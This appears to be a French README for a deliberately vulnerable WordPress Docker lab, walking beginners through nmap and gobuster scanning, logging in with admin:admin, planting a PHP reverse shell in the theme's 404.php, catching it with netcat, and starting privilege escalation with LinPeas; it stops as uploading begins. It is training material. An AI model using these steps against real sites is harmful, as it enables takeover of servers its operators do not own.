# empirelabs_wordpress_app


### Installation de Docker

Si vous avez déjà docker d'installer sur votre système vous pouvez passez à la suite !

> C'est quoi docker ?

Docker est un outil qui permet de créer, déployer et gérer des applications facilement grâce à des conteneurs. Un conteneur est comme une petite boîte qui contient tout ce dont une application a besoin pour fonctionner : le code, les bibliothèques, les dépendances, etc.

C'est donc avec docker que nous allons faire tourner notre application vulnérable !

---

##### Windows

##### Linux

```bash
sudo curl -SL https://github.com/docker/compose/releases/download/v2.17.2/docker-compose-linux-x86_64 -o /usr/bin/docker-compose
sudo chmod +x /usr/bin/docker-compose
```

```bash
sudo apt update
sudo apt install -y docker.io docker-compose
sudo systemctl enable docker --now
sudo usermod -aG docker $USER
```

> Redémarer ensuite la machine virtuelle ou votre systeme

##### MacOS

```bash
brew install docker
brew install docker-compose
```

---

### Installation laboratoire de test

```bash
git clone https://github.com/Nexgear75/empirelabs_wordpress_app.git
cd empirelabs_wordpress_app
sudo docker-compose up -d
```

> Ici docker télécharge toute les dépendances dont il a besoin pour faire fonctionner l'application !

Si vous avez tout bien installé vous devriez voir ceci :



---

## Hacker votre première machine !

### Information machine

> Adresse IP de la machine : ==**10.11.0.2**==
> Adresse IP hôte : ==**10.11.0.1**==

### Reconnaissance

La reconnaissance est la première étape par laquelle vous passerez peu importe la machine que vous essayerai d'attaquer ! L'objectif ici c'est d'obtenir un maximum d'information sur la victime tel que :

- **Les ports ouverts**
- **Les services qui tourne sur la machine**
- **L'OS de la victime**

Ici la seule information que nous avons et que vous aurez normalement à chaque fois c'est l'adresse IP de la machine. C'est votre porte d'entrée !

> Comment faire pour obtenir toute ces informations ?

Il existe plusieurs outils de reconnaissance mais le plus connus d'entre eux est bien évidement **nmap**.

#### Installation

##### Linux

```bash
sudo apt install nmap
```

##### MacOS

```bash
brew install nmap
```

> Nmap (Network Mapper) sert à scanner les réseaux et détecter les appareils connectés, leurs ports ouvert et les services disponibles.

On va donc pouvoir scanner et découvrir ce qui se cache derière ce docker grâce à cette commande :

```
nmap [addresse_ip]
```



Dans l'encadré rouge on retrouve les ports que nmap à détecter et en vert l'état ce des ports, en gros soit ils sont accessible soit ils ne le sont pas on aurait alors eu "closed"

Mais actuellement on manque encore de pas mal d'information...
Heureusement nmap à plus d'un tour dans son sac car il a une collection de script qui permet d'obtenir bien plus d'information !
Vous pouvez consulter tout les paramètres en utilsant la commande suivante : `nmap --help`

Dans notre cas nous allons utilser le paramètre `-A` pour "Agressif" et qui utilise plusieurs script :

```bash
nmap -A [adresse_ip]
```



Ahh ! C'est beaucoup mieux !

Ici les informations importantes à retenir sont :

- Que le **port 80** redirige simplement sur le **5500**
- Nmap suppose que l'OS utilsé est **Ubuntu**
- Le service qui tourne sur le port 5500 est **Wordpress 4.6.28**

> Wordpress est un système de gestion de contenue plus couraemment appelé CMS. Il permet de créer et gérer facilement des sites web.

On sait donc qu'il y a un service web sur la machine alors allons voir de quoi il en retourne en nous rendant sur l'adresse depuis votre navigateur préféré : **10.11.0.2:5500** ou simplement **10.11.0.2** puisque cela redirige vers le port 5500



### Scanning

On a maintenant accées à l'application Wordpress on peut se balader un peu sur le site mais rien de bien interressant... on va donc sur la même idée que la reconnaissance faire un scan ! Ici on est face à une application web classique. Les applications web sont construites avec une multitudes de fichier html, css, php, txt etc...


L'objectif va être de découvrir les différents fichiers présent sur le serveur web et peu être trouvé quelque chose d'utile

Pour cela on va utiliser "gobuster" qui va envoyer plein de requete au serveur et tester plein de nom de fichier connus ! En fonction de la réponse du serveur on peut savoir si le fichier existe ou non ! Pour tester les noms de fichier on va avoir besoin d'une liste avec beaucoup de mot qu'on va tester 1 par 1. On appelle cela une wordlist.

SecList est une collection de wordlist connus et vous pouvez les télécharger avec cette commande :

```bash
git clone https://github.com/danielmiessler/SecLists.git
```

Maintenant que vous avez les wordlists nous allons pouvoir utiliser ce fameux gobuster

```bash
gobuster dir -u http://[adresse_ip:port] -w SecLists/Discovery/Web-Content/common.txt -x php,html,txt
```

> Le paramètre "-u" permet de spécifier l'adresse du serveur web sur lequel faire les tests. "-w" permet de spécifier une wordlist et enfin le paramètre "-x" permet de specifier des extensions suplémentaires à essayer à la fin de chaque mot de la wordlist.



Ce qui est accessible par l'utilisateur est noté par le code **"Status : 200"** ici en vert

On peut observer plusieurs fichier interressant sur ce scan !

- **robots.txt**
- **wp-login**

On peut simplement y accéder en rajoutant le nom des fichiers à la fin de l'addresse comme ci dessous :

```
http://[adresse_ip:port]/[nom_du_fichier]
```

On va commencer avec le fichier **robots.txt** !



Hmmmm... un message qui provient probablement d'un autre utilisateur et qui nous indique que la combinaison (user:password) est une configuration par défault

Rien d'autre sur ce fichier on peut passer à la suite avec **wp-login**



Ahhhh ! Interessant ! On arrive sur une page de connexion à l'interface de wordpress !

D'après les informations il y aurais surement une configuration par défauts de la combinaison **user:password**

Il existe probablement un compte **admin** de wordpress...

> A vous de jouer !

Bravo à ceux qui ont trouvé la combinaison ==**admin:admin**==

Vous allez maintenant pouvoir vous connectez sur l'interface admin de wordpress !



> Bravo vous y êtes !

### Exploitation

Vous pouvez essayer de vous balader et de comprendre le fonctionnement de l'application mais dans notre cas google sera notre meilleur ami. Ici l'objectif va être d'abuser de nos privilège administrateur sur l'application wordpress pour avoir un accés sur la machine victime et essayer d'en prendre le controle.

Avec quelque recherche sur le web on peut trouver quelque information interessante. Notaemment une RCE **(Remote Code Excecution)** ce qui veut literralement dire que nous pouvons executer du code arbitraire sur la machine à distance ce qui est parfait pour nous !

> En générale si vous voyez que la machine victime possède une RCE ça sent bon pour vous !



[Hacktricks](https://book.hacktricks.xyz/) est souvent un très bon point de départ pour comprendre comment exploiter certaines applications et ici on peut apprendre qu'il existe une RCE sur le panel administrateur de wordpress !

Ici ce qu'il faut comprendre c'est que wordpress utilise un système de template _(Un template est un modèle prédéfini utilisé comme base pour créer des documents ou des éléments de manière répétitive, en remplissant les zones spécifiques avec des données variables.)_ et ce modèle prédéfinis **(404.php)** est modifiable et exécutable en se rendant sur l'adresse :

```
http://[adresse_ip:port]/wp-content/themes/[numéro_theme]/404.php
```

Avec quelques recherche suplémentaire on trouve que ce fichier est modifiable en se rendant sur "Appearance -> Editor"



Puis à droite vous pouvez voir le fameux 404.php ! Cliquez dessus !



C'est ici que ça deviens technique mais sacrement intéressant ! On a ici du code php et de ce qu'on a lu du code que l'on peut éxécuter sur la machine victime. Dans ce cas ci, la plus part du temps on peut prendre le controle de la machine en utilisant ce que l'on appelle un **Reverse Shell**.

> Mais c'est quoi un Reverse Shell ?



Comme on peut le voir sur ce schema explicatif si nous essayons de nous connecter à la machine son **firewall** nous bloquera et on ne pourra rien faire. Par contre si c'est la **machine victime qui se connecte à la votre** tout deviens possible ! Et c'est exactement ce que nous allons faire !

Pour que cela fonctionne il nous faut :

- **Un reverse shell en php** (car c'est ce qui peut être excuté sur la machine victime)
- **Un listener sur notre machine** qui attendra la connexion de la machine victime

Pour le reverse shell en php il éxiste pour notre plus grand plaisir des générateurs. Comme [RevShell](https://www.revshells.com/) !



Ok !! On retrouve en haut l'adresse IP et le port sur lequel la machine victime va essayer de se connecter ! A gauche vous avez plein de revershell dans une multitudes de language différent mais ici comme vous l'avez compris on a besoin de celui écrit en php.

L'adresse IP avec laquelle vous pouvez communiquer avec votre machine `10.11.0.1` et le port c'est simplement le numéro de porte par lequel la machine victime essayera de se connecter. Vous auriez pu mettre 5555 ou encore 8888 cela changera simplement le port que vous allez devoir écouter.

Parfait maintenant copions le code php après avoir entrée les bonnes information. Et copions le à la place du code 404.php dans le panel wordpress.


> Collez le code à la place de l'ancien et cliquer sur "Update file"

Ce qu'on viens de faire c'est simplement de réécrire le fichier **404.php**, maintenant nous devons l'exécuter à distance ! Si vous vous souvenez bien on à un moyen de l'éxécuter en le ayant la bonne adresse.

```
http://[adresse_ip:port]/wp-content/themes/[numéro_theme]/404.php
```

Cette adresse va permettre de demander au serveur de chercher le fichier 404.php et comme il existe bel et bien il va l'éxécuter sauf que le code que nous avons mis dedans à était modifier et il va donc envoyer une requète sur notre ordinateur !

Mais si on utilise cette adresse en l'état cela ne fonctionnera pas car sur notre machine nous n'avons rien qui est près à recevoir cette connection. C'est la qu'entre en compte le **listener**. Il en existe plusieurs mais nous allons utiliser pour ce cours **nc (Netcat)**

##### Linux

> Normalement c'est déjà installer sur votre machine

```bash
sudo apt install netcat
```

##### MacOS

```bash
brew install netcat
```

---

Avec la commande : `nc -lvnp [port]` vous pouvez écouter sur le port spécifier et avoir un shell intéractif !

- **"-l"** -> listen
- **"-p"** -> specifie local port
- **"-v"** -> verbose
- **"-n"** -> numéric-only IP addresses

> Pour mac remplacer simplement "nc" par "netcat"

Et voilà votre listeneur est prés à recevoir la connexion de la machine victime ! Vous pouvez laisser cette connexion de côté et revenir sur votre navigateur web.

Tout est enfin pret nous pouvons obtenir notre **reverse shell** !
Rendez-vous sur l'adresse ci dessous !

```
http://10.11.0.2:5500/wp-content/themes/twentyfifteen/404.php
```

 

Magie !! Nous avons bien reçu la connection de la machine et on a le contrôle sur cette dernière.

> Ceux pour qui cela n'a pas fonctionné et ont un message d'erreur "connexion refused" c'est un problème avec docker remplacer simplement dans le fichier php =="10.11.0.1"== par =="host.docker.internal"==

Vous pouvez essayer de taper les commandes de base :

- **ls** -> lister le contenue du répertoire courant
- **whoami** -> pour connaitre votre utilisateur
- **uname -a** -> pour connaitre le systeme sur lequel vous êtes

On a le controle de la machine !

> Le shell n'est pas très pratique non ?

C'est vrai que le shell n'est pas très beau et vous aurez l'occasion de voir qu'il est sujet au crash ce qui est très embettant car vous devez refaire toute les manipulations si cela devait arriver ! Il existe evidement plusieurs solution mais celle que je vais vous présentez est la plus simple ! On va utiliser python pour générer un shell plus beau et plus stable.

```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```



On a maintenant un magnifique shell et on peut directement voir notre utilisateur actuel.

En effet, sur cette machine nous somme **www-data** qui est un utilisateur de base sur linux et qui a des **droits sur le serveur web** !

C'est completement logique puisque l'utilisateur qui a executé notre code malveillant (404.php) était **www-data**, l'utilisateur en charge du serveur web.

Le serveur web sur linux se situe dans **/var/www/**
Rendez-vous dans ce dossier pour trouver votre premier **flag** !!

```bash
cd /var/www/
cat user.txt
```

> empirelabs{dont_l34ve_d3f4ult_cr3ds_b3hind}

Bravo !! Vous venez de trouver votre premier flag !

### Privilege Escalation

Comme son nom l'indique "escalade de privilège" l'objectif de cette section va être d'augmenter son niveau de privilège, c'est a dire etre **root** sur la machine qui est le plus haut niveau de privilège possible.

Il existe tout un tas de manière d'y arriver et dans ce cours nous n'en verrons qu'une seule.

Pour repérer des potentiels faille permettant de passer root il existe des outils qui scanne l'entireté du systeme et vous fais savoir les possibles configurations douteuse. Le plus connu d'entre eux **LinPeas**.

**Pour télécharger :** [Linpeas](https://github.com/peass-ng/PEASS-ng/releases)

> C'est bien de le télécharger mais comment faire pour l'exécuter sur la machine distante ?

Il va effectivement falloir upload le fichier "linpeas.sh" sur la machine victime.

